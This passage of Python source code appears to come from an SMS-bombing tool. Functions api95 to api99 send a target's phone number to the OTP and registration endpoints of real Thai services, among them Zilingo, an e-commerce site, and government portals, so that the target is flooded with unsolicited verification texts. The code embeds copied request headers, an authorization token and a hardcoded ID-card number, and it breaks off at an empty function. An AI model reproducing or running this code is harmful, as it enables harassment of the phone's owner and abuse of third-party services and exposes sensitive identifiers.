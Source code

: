     post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", data={"tel":phone,"otp_type":"register"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","authorization": "Basic 755b4608e637d413d668502704d93e377f4f67b2d3d0f50e5644af3607f31ddb3174ecaf5b2c40c86f9efc32de1ee0bbf3e7a2b32cb055a3cb7068e1bb152844"})

    

#Zilingo

def api95(phone):

    post("https://id.zilingo.com/api/v1/userVerification/initiate?up_s=B2B_ASIA_MALL&up_cd=v1_eyJjbGllbnRVc2VySWRlbnRpZmljYXRpb24iOnsiYW5vbnltb3VzVXNlcklkT3B0IjoiQUlENTUwMDY3MTIzMjA0NTY2MDkyIiwic2Vzc2lvbklkT3B0IjoiU0lENTUwMDY3MTIzMjA0NTY2MDkyIiwidXNlcklkT3B0IjpudWxsfSwic2NyZWVuT3B0Ijp7InNjcmVlblR5cGUiOiJDQVRFR09SWSIsInNjcmVlbklkIjoiV0NMIiwic2NvcGUiOm51bGx9LCJidXllclJlZ2lvbk9wdCI6IkIyQl9USEEiLCJsb2NhbGVDb2RlIjoidGgiLCJxdiI6eyJjbGllbnQiOiJXZWIiLCJzdWJDbGllbnQiOiJEZXNrdG9wV2ViIiwidmVyc2lvbiI6IjM1LjguNSJ9fQ==",headers=header,json={"channelDetails":{"phoneNumber":f"+66{phone[1:]}","channelType":"SMS"},"source":"UNIFIED_LOGIN","action":"OTP_LOGIN","redirectTo":"/th-th/Women/Clothing"})

    

#DGA

def api96(phone):

    post("https://accounts.egov.go.th/Citizen/Account/MobileRegisterJson",headers=header,json={"Mobile":f"{phone}","TransactionId":"f28ef0a2-23ff-4abd-b9e6-fdfc271298ea"})

    

def api97(phone):

    post("https://tdhw.treasury.go.th/TD-Vote/api/otp/request",json={"ID_CARD":"1104200197909","TEL":f"{phone}","OTP_TYPE":"OTP_TEST"})

    

def api98(phone):

    post("https://user-api.learn.co.th/authentication/sendOTP",json={"mobileNumber": phone},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Host": "user-api.learn.co.th","content-length": "29","sec-ch-ua-mobile": "?1","content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, /","sec-ch-ua-platform": "Android","origin": "https://user.learn.co.th","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://user.learn.co.th/","x-api-key": "USER_API_KEY"})

    

#FOODDIARY

def api99(phone):
